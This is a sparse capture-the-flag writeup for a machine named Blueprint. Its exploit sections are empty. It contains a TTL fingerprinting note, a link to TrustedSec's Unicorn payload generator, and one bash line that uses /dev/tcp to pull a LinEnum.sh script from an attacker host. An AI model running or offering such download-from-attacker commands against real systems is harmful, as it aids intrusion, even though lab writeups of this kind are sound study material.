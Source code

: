 # Blueprint Writeup

Name: Blueprint
Date:  
Difficulty:  Easy
Goals:  
- Got root.txt at some point cannot remember this box, but I did not get user.txt
Learnt:
Beyond Root:
- TrustedSec's Unicorn 
- msDOS-file-transfer-dreams 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

guestusersmbaccess.png

## Exploit

## Foothold

## PrivEsc

## Beyond Root - Unicorn and msDOS-file-transfer-dreams 

TrustedSec's Unicorn - https://github.com/trustedsec/unicorn

Powershell or msDOS `echo` version of Ippsec's `cat` file tranfer for windows! Wow what a file transfer, I have not seen this on any OSCP cheatsheets! - findstr would be obvious choice but I really want and echo version.
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```

Yes I know of the vbget line-by-line, but I really just want a hacky version of the above. 
```powershell
```